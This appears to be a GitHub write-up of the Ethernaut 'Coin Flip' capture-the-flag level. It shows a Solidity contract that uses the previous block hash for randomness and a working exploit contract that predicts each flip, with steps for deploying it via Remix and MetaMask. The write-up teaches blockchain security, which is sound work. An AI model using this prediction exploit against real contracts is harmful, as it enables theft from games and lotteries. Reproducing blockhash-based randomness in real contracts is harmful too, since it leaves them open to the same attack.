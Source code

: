 # Coin Flip

>This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

>Things that might help :
> 1. See the "?" page above in the top right corner menu, section "Beyond the console"


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

`There’s no true randomness on Ethereum blockchain, only random generators that are considered “good enough”.`

The random number generation is one of the serious pitfalls of blockchains due to deterministic nature. Some examples of methods which are used to generate pseudo randomness are `block.timestamp`, `block.number` etc.

In this challenge, the random coin flip is generated by `block.number`.

This block number is easily accessible, therefore we can regenerate the result of the coinflip and feed this result to flip function to correctly guess and succeed in incrementing consecutiveWins.

The exploit script for this challenge can be written like this, 

```solidity

contract exploit {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip cf;

    constructor(address addr ){
        cf = CoinFlip(addr);
    }

    function makeGuess() public {
      uint256 blockValue = uint256(blockhash(block.number - 1));
      uint256 coinFlip = blockValue / FACTOR;
      bool side = coinFlip == 1 ? true : false;
      cf.flip(side);
    }
}
```
When we call the makeGuess function, consecutiveWins gets incremented by 1. We can check this through the browser console.

<img width="311" alt="ethernaut-1" src="https://github.com/blueh4mster/Ethernaut-writeups/assets/102573660/4b678f6d-d70c-4216-96a5-9fc0ca4827d9">

We call this makeGuess function 10 times to increment consecutiveWins by 10 and then submit the instance.

(This exploit script can be deployed in remix IDE using Injected Web3 Provider MetaMask. Instance address of the challenge to be fed to the constructor.)
